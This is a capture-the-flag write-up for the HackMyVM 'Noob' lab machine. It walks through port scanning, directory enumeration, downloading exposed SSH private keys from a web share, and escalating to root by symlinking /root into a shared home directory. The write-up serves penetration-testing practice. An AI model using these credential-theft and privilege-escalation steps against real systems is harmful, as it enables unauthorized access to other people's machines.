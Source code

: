 ```yaml
---
title: "Noob Writeup HackMyVM"
date: 2025-07-10 00:00:00 +0530
categories: [Write Up,  HackMyVM] 
tags: [Privilege Escalation, SSH, rsa key, symbolic link]
---
```


![Alt Text](/img/noob/1.png)


<strong>The penetration test began with a nmap scan, which revealed that ports 22 (SSH) and 65530 were open. Further enumeration using Gobuster on port 65530 led to the discovery of the nt4share directory. SSH connection was established using a key found in nt4share. To escalate privileges, a symbolic link was created, granting access to the root account. The penetration test culminated in accessing the root account via SSH using the newly acquired key, enabling the retrieval of the flags.</strong>


<a href="https://hackmyvm.eu/machines/machine.php?vm=Noob" target="_blank" rel="noopener noreferrer">vm link</a>

#### >> Create a variable for the IP to avoid retyping the address each time
```shell
┌──(kali㉿kali)-[~/Desktop/noob]
└─$ ip=192.168.0.124
```
<br>
## Enumeration
<br>

#### >> Scan for open ports and services using nmap
 - also try ```nmap -sCV -p22,65530 -n -Pn -vvv 192.168.0.124 -oN target```

```shell
┌──(kali㉿kali)-[~/Desktop/noob]
└─$ sudo nmap -sC -sV -p- -T4 -A -O $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-18 06:50 IST
Nmap scan report for 192.168.0.124
Host is up (0.00097s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 66:6a:8e:22:cd:dd:75:52:a6:0a:46:06:bc:df:53:0f (RSA)
|   256 c2:48:46:33:d4:fa:c0:e7:df:de:54:71:58:89:36:e8 (ECDSA)
|_  256 5e:50:90:71:08:5a:88:62:7e:81:07:c3:9a:c1:c1:c6 (ED25519)
65530/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
MAC Address: 08:00:27:6C:C3:C4 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.98 ms 192.168.0.124

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.75 seconds

```

- Port 22 & 65530 are open

![Alt Text](/img/noob/2.png)

## Gobutser port 65530

```shell
┌──(kali㉿kali)-[~/Desktop/noob]
└─$ gobuster dir -u http://$ip:65530/ -w /wordlists/directory-list-2.3-medium.txt -x php,txt,html,css,js,zip,bak -t 200
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.0.124:65530/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html,css,js,zip,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 19]
/http%3a%2f%2fwww     (Status: 301) [Size: 45] [--> /http:/www]
/http%3a%2f%2fwww.bak (Status: 301) [Size: 49] [--> /http:/www.bak]
/http%3a%2f%2fwww.php (Status: 301) [Size: 49] [--> /http:/www.php]
/http%3a%2f%2fwww.txt (Status: 301) [Size: 49] [--> /http:/www.txt]
/http%3a%2f%2fwww.html (Status: 301) [Size: 50] [--> /http:/www.html]
/http%3a%2f%2fwww.css (Status: 301) [Size: 49] [--> /http:/www.css]
/http%3a%2f%2fwww.js  (Status: 301) [Size: 48] [--> /http:/www.js]
/http%3a%2f%2fwww.zip (Status: 301) [Size: 49] [--> /http:/www.zip]
/http%3a%2f%2fyoutube (Status: 301) [Size: 49] [--> /http:/youtube]
/http%3a%2f%2fswik.html (Status: 301) [Size: 51] [--> /http:/swik.html]
/http%3a%2f%2fswik.css (Status: 301) [Size: 50] [--> /http:/swik.css]
/http%3a%2f%2fswik.js (Status: 301) [Size: 49] [--> /http:/swik.js]
/http%3a%2f%2fswik.zip (Status: 301) [Size: 50] [--> /http:/swik.zip]
/http%3a%2f%2fswik.bak (Status: 301) [Size: 50] [--> /http:/swik.bak]
/http%3a%2f%2fswik.php (Status: 301) [Size: 50] [--> /http:/swik.php]
/nt4share             (Status: 301) [Size: 45] [--> /nt4share/]                                <<<
Progress: 1661144 / 1661152 (100.00%)
===============================================================
Finished
===============================================================
                                                                
```
![Alt Text](/img/noob/3.png)

![Alt Text](/img/noob/4.png)

- Chek keys
- Let's try `SSH` with `id_rsa`

`wget http://$ip:65530/nt4share/.ssh/id_rsa`

`chmod 600 id_rsa`


## Establish SSH connection

```shell
┌──(kali㉿kali)-[~/Desktop/noob]
└─$ ssh -i id_rsa adela@$ip
Linux noob 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jun 17 22:18:48 2024 from 192.168.0.190
adela@noob:~$ id
uid=1000(adela) gid=1000(adela) groups=1000(adela),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
adela@noob:~$ 
```

## Privilege Escalation

#### >> Creating a symbolic link named root that points to the root directory (/root) allows for easy access to the root directory from another location in the filesystem.

```shell                                                                           
adela@noob:~$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
adela:x:1000:1000:adela,,,:/home/adela:/bin/bash
adela@noob:~$ ln -s /root root
adela@noob:~$ ls -al
total 28
drwxr-xr-x 3 adela adela 4096 Jun 17 21:02 .
drwxr-xr-x 3 root  root  4096 Jul 11  2021 ..
-rw-r--r-- 1 adela adela  220 Jul 11  2021 .bash_logout
-rw-r--r-- 1 adela adela 3526 Jul 11  2021 .bashrc
-rw-r--r-- 1 adela adela  807 Jul 11  2021 .profile
lrwxrwxrwx 1 adela adela    5 Jun 17 21:02 root -> /root                                       <<<
drwx------ 2 adela adela 4096 Jul 13  2021 .ssh
-rw------- 1 adela adela   50 Jul 14  2021 .Xauthority 
```
- `lrwxrwxrwx 1 adela adela    5 Jun 17 21:02 root -> /root` symbolic link created.
- Accessing the `nt4share` again. We have a new directory `root`
![Alt Text](/img/noob/5.png)

![Alt Text](/img/noob/6.png)

#### >> Let's get `id_rsa` from `root` and `SSH` it.

`wget http://$ip:65530/nt4share/root/.ssh/id_rsa`


```shell                                                                           
┌──(kali㉿kali)-[~/Desktop/noob]
└─$ ssh -i id_rsa root@$ip
Linux noob 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jun 17 21:10:45 2024 from 192.168.0.190
root@noob:~# ls
root.txt  user.txt
root@noob:~# 

```
- Now we have both the flags

<br>
<center>pwned</center>